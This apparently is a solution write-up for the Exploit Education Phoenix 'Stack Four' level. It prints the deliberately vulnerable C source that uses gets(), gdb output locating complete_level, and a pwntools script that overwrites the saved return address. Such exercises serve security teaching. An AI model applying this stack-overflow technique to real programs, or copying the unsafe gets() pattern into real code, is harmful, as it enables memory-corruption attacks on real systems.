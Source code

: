 ```yaml
---
title: " Exploit Education | Phoenix | Stack Four"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

The goal of this level is to overwrite the return address of **start_level** function to return to **complete_level** function instead of **main**.

First we get the address of **complete_level** function:

```
$ gdb -q /opt/phoenix/amd64/stack-four
Reading symbols from /opt/phoenix/amd64/stack-four...(no debugging symbols found)...done.

gef➤  print complete_level 
$1 = {<text variable, no debug info>} 0x40061d <complete_level>
```

So we must overwrite **RIP** with the address  **0x40061d**.

```
gef➤  disassemble start_level 
Dump of assembler code for function start_level:
   0x0000000000400635 <+0>:	push   rbp
   0x0000000000400636 <+1>:	mov    rbp,rsp
   0x0000000000400639 <+4>:	sub    rsp,0x50
   0x000000000040063d <+8>:	lea    rax,[rbp-0x50]
   0x0000000000400641 <+12>:	mov    rdi,rax
   0x0000000000400644 <+15>:	call   0x400470 <gets@plt>
   0x0000000000400649 <+20>:	mov    rax,QWORD PTR [rbp+0x8]
   .....
```

So to overwrite **RIP** we must enter (0x50 junk + 8 bytes for RBP + address of **complete_level**).

```
gef➤  b *0x0000000000400649
Breakpoint 1 at 0x400649

gef➤  r <<< $(python solve.py)
Starting program: /opt/phoenix/amd64/stack-four <<< $(python solve.py)
Welcome to phoenix/stack-four, brought to you by https://exploit.education
Breakpoint 1, 0x0000000000400649 in start_level ()
......

gef➤  info registers rbp
rbp            0x7fffffffe630      0x7fffffffe630

gef➤  x/12xg $rsp
0x7fffffffe5e0:	0x4141414141414141	0x4141414141414141
0x7fffffffe5f0:	0x4141414141414141	0x4141414141414141
0x7fffffffe600:	0x4141414141414141	0x4141414141414141
0x7fffffffe610:	0x4141414141414141	0x4141414141414141
0x7fffffffe620:	0x4141414141414141	0x4141414141414141
0x7fffffffe630:	0x4242424242424242	0x000000000040061d
```

Here we can see that **RBP** was overwritten to  0x4242424242424242 and after it is the value of **RIP** 0x000000000040061d which is the address of **complete_level** function.

# Solution:

```python
# solve.py

from pwn import *

buff = ""
buff += 'A'*80			# junk
buff += 'BBBBBBBB'		# RBP value
buff += p64(0x40061d)		# RIP value

print(buff)
```

```
$ python solve.py | /opt/phoenix/amd64/stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x40061d
Congratulations, you've finished phoenix/stack-four :-) Well done!
```